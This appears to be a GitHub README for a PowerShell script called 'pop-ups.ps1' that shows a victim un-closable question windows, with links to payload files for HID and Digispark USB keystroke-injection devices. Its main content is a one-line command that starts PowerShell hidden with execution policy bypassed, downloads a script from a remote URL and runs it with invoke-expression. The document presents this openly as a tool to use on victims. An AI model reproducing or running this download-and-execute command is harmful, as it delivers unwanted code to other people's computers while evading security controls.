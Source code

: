 ![alt text](https://github.com/d0cax/d0cax/blob/main/Screenshot%202024-08-02%20001147.png)

## pop-ups.ps1

#### Description
A script to run a .exe file which asks multiple questions to victim without being able to be closed.

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/d0cax/pop-ups/main/PopUps.ps1?dl=1; invoke-expression $pl
```
#### Usage 
Check out my payload dropper for HIDs or digisparks for this script.
* [Payload.txt](https://github.com/d0cax/pop-ups/blob/main/Payload.txt)
* [Payload.ino](https://github.com/d0cax/pop-ups/blob/main/Payload.ino%20for%20Digispark)

#### Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [I am Jakoby](https://github.com/I-Am-Jakoby/)
